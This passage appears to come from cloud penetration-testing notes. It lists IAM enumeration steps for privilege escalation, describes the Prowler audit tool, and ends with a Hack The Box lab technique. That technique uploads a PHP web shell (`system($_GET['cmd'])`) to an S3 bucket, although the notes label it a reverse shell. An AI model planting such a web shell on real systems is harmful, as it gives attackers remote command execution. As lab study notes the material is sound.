 A possible privIlege escalation could be done following this steps
- List all users (IAM)
- List IAM policies for a user (IAM)
- Get information about a specific policy (IAM)
- Get more information about a specific policy (IAM)
- List all IAM roles (IAM)
- Get information about a specific role (IAM)

## prowler <a name="p"></a>

**Prowler** is an Open Source security tool to perform AWS, GCP and Azure security best practices assessments, audits, incident response, continuous monitoring, hardening and forensics readiness.

It contains hundreds of controls covering CIS, NIST 800, NIST CSF, CISA, RBI, FedRAMP, PCI-DSS, GDPR, HIPAA, FFIEC, SOC2, GXP, AWS Well-Architected Framework Security Pillar, AWS Foundational Technical Review (FTR), ENS (Spanish National Security Scheme) and your custom security frameworks.

- Use a custom AWS profile with `-p`/`--profile` and/or AWS regions which you want to audit with `-f`/`--filter-region`:

```bash
prowler aws --profile custom-profile -f us-east-1 eu-south-2
```

## aws reverse shell <a name="awsrs"></a>

The `aws reverse shell` command is used to copy files from your local machine to one of the AWS buckets. After copying the file, you can access it and enter commands.

- `endpoint`: URL where S3 is located (replace with `s3` or another subdomain if found).
- `s3`: Interacts with the S3 service (replace with the discovered subdomain from gobuster subdomain search).
- `cp`: Copies the specified file, in this case, `shell.php`, to the bucket.
- `shell.php`: The file to be copied, containing `<?php system($_GET["cmd"]); ?>` code.
- `s3://{bucket name}`: Name of the bucket to interact with.

````bash
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
````